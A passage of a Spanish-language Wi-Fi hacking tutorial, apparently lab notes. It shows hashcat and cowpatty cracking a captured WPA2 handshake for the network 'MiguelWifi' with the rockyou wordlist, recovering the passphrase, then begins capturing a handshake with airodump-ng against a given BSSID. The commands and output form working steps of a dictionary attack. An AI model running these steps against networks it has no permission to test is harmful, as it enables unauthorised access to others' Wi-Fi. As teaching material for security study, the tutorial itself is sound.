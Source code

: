 ```bash
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 3 secs

c6bffd55e2f7:1a58184e8a68:MiguelWifi:manchester  
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: WPA-EAPOL-PBKDF2
Hash.Target......: MiguelWifi (AP:c6:bf:fd:55:e2:f7 STA:1a:58:18:4e:8a:68)
Time.Started.....: Tue Sep 12 19:02:01 2023, (1 sec)
Time.Estimated...: Tue Sep 12 19:02:02 2023, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2044 H/s (7.15ms) @ Accel:1024 Loops:128 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 6595/14344385 (0.05%)
Rejected.........: 4547/6595 (68.95%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456789 -> zaq12wsx

Started: Tue Sep 12 19:01:04 2023
Stopped: Tue Sep 12 19:02:03 2023
```

# Cracking cowpatty

- Estas es otra alternativa.

```bash
❯ cowpatty -f /usr/share/wordlists/rockyou.txt -r Captura-01.cap -s MiguelWifi
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Collected all necessary data to mount crack against WPA2/PSK passphrase.
Starting dictionary attack.  Please be patient.

The PSK is "manchester".

128 passphrases tested in 0.27 seconds:  465.61 passphrases/second
```

## Espionaje 

- Bueno para poder entender todo esto vamos a comenzar capturando un **handshake**.

- Vamos a ponernos otra vez monitoreando el **AP** y lo vamos a exportar a un fichero.

```bash
❯ airodump-ng -w Captura --bssid C6:BF:FD:55:E2:F7 --channel 1 wlan0mon 
```
